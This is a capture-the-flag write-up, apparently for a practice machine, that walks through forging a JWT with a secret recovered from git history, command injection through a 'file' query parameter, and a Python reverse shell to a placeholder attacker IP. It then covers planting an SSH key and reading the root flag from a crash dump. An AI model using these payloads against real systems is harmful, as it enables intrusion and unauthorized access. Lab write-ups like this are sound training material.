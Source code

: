 IT'S ALL ABOUT READING DOCS.
---
![](https://i.ibb.co/nfFw67L/secret.png)\
\
\
*note that i skipped useless parts like "we can see this, but as we can see, it's not important to us & wrong tries"*\
*note1 that i don't recommend to blindly copy + paste, you will learn nothing. do your own research. :)*

```
POST /api/user/register HTTP/1.1
Content-Type: application/json //important to add
[blabla]

  {
	"name": "hihihi",
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : {"user": "hihihi"} // user created`
\
\
\
```
POST /api/user/login HTTP/1.1
[BLABLA]
  {
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : [OUR JWT TOKEN.... ALSO AS auth-token header.]`
\
\
**/download - DOWNLOAD THE SOURCE CODE**

`// important to proceed further, easily discoverable by gobuster, ffuf,.. what do you prefer`

- we can see, that in .env file, there's **theadmin** user.     `// in jwt.io, rename yourself to "theadmin"`
- the secret seems to be **secret**, but it's false. (checking with jwt.io)     `// reading the file + trying it in burp.. token is invalid.`
- as we can see .git, we can try `git log` to see changes.     `// yes`
```
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons // one of the snippets, that is key to us.
```
THE COMMAND FOR TIME TRAVEL BACK IS : `git HEAD~2`.
after that, we can see **TOKEN_SECRET**, with different secret    
\
`// the secret works, trust me... or more like try it.`

```
GET /api/priv 
auth-token: [token with secret]
```
`response : "desc":"welcome back admin"            // confirms it works.`
\
\
\
- with the command `git HEAD~2`, we can also see a snippet of js code : 
```
router.get('/logs', verifytoken, (req, res) => {
+    const file = req.query.file;     // creates ?file param.
+    const userinfo = { name: req.user }
+    const name = userinfo.name.name;
```
- the most interesting for us is `req.query.file`, which creates ?file= param.
\
`?file=index.js;id // command injection`\
`?file=index.js;cat+/home/dasith/user.txt // getting USER FLAG [not gonna leak for you]`

now, we need to get into the server. found this cool blog : https://www.aldeid.com/wiki/Command-injection-to-shell --> it is not working, but interesting method as well. nice to read.


`python3+-c+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[your ip]",[port]));os.dup2(s.fileno(),0);+os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import+pty;+pty.spawn("sh")' // classic way ; it works. (done with burp)`

So, we got reverse shell, but let's be honest, reverse shell is shit. as we can see from nmap scan, 22 is open, meaning we can connect via ssh.
\
- let's go into `/home/dasith` directory ;
```
mkdir .ssh
cd .ssh
ssh-keygen -t rsa //spam enter
cat id_rsa.pub > authorized_keys
chmod 600 authorized_keys
chmod 700 id_rsa
cd ..
chmod 700 .ssh
```

- copy the id_rsa into your machine `//cat id_rsa and copy it`
```
ssh -o StrictHostKeyChecking=no -i id_rsa dasith@10.10.11.120 uptime // add our host to verified
ssh -id_rsa dasith@10.10.11.120 //connect 
```
- in `/opt`, there's strange file **count**

`./count`

**note:** here, i was stuck for a long period of time. especially with the `apport-unpack`, which i never heard of.
```
Enter source file/directory name: /root/root.txt // we want to get root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ctrl^Z // background the proccess
```
let's kill it!
```
ps //see PID of the script
kill -SIGSEGV [PID] // kill the proccess
fg // get back from background
Segmentation fault (core dumped) // BroKEn
```
as we can see, we broke it.
crash logs are in `/var/crash/`. there, we can use one cool utility i didn't know = `apport-unpack`

`apport-unpack _opt_count.1000.crash [directory whenever you want] // 1000 is right, others are useless`\
`cd [crashes]`

now, most interesting is CoreDump obviously, since the error was `Segmentation fault (core dumped)`\
`strings CoreDump // find the root flag.`

thanks.

**what i used :** 
\
              https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error {ssh verify host} \
              https://jwt.io/ 
	      \
              https://www.unix.com/man-page/linux/1/apport-unpack/ {checked man page of apport unpack}
              
https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens {for jwt pentesting.}
              
